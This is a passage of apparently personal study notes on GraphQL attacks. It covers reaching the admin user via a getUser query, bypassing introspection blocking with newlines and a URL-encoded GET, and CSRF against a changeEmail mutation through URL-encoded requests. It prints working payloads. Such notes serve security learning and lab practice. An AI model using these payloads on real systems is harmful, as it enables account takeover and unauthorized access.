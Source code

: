 4. As you can see, getUser query is being called during authentication. Now we can try to copy & paste this query in login request adn change id = 1 since the first id is admin

![image](https://github.com/user-attachments/assets/109ecad3-3815-4e5e-81a1-4b044cb014ce)

Easy peasy. The keypoint is to learn how query work in information schema!

<h3>Bypass GraphQL introsepction defense</h3>

We could try new line, spaces and commas

```
#Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

The example is shown how we can bypass defense by using new line!

or we can bypass with URL path!

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

<h3>GraphQL CSRF</h3>

This attack vector allows attackers to perform CSRF via GET request or the content type is **x-www-form-urlencoded** instead of **application/json** or use Burp pro feature called **Generate CSRF PoC**

**Example**

From JSON 

```
{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"heeh@hehe.hehe"}}}
```

to

URL encoded

```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

or

```
query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}
```
